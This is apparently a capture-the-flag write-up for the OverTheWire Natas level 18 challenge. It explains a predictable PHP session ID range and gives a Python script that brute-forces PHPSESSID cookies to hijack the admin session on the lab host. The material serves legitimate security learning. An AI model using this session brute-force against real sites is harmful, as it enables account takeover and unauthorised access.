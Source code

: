 ```php
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

So in order to get it to print the credential for the next level, we need to pass this check:

```php
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
```

The [$_SESSION](https://www.php.net/manual/en/reserved.variables.session.php) is a `superglobal` variable which contains all of the session IDs in an array. Generally, when a new session is created, the server returns the session's ID as a cookie named `PHPSESSID`. Since HTTP is a stateless protocol, this cookie is how the server determines which session is associated to your request. For this challenge, it looks like we need to perform a session hijacking attack to steal the admin's session.

If we look back at the source code, we see this:

```php
$maxid = 640;
...
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
```

Looks like the session ID is just a random integer between 1 and 640. Looks like we can just brute force the admin's session by checking every session ID in that range.

[Asyncio](files/natas/natas18_async.py)\
[Without Asyncio](files/natas/natas18.py):

```python
#!/usr/bin/env python3
import re
import requests


url = 'http://natas18.natas.labs.overthewire.org/'
auth = ('natas18', natas18_pass)

def find_password():
    for i in range(1,641):
        cookies = {'PHPSESSID': str(i)}
        r = requests.get(url, auth=auth, cookies=cookies)
        if 'Username: natas19' in r.text:
            password_re = re.compile('Password: (?P<password>[a-zA-Z0-9]{32})')
            password = password_re.search(r.text).groupdict()['password']
            return password


if __name__ == '__main__':
    print(find_password())
```
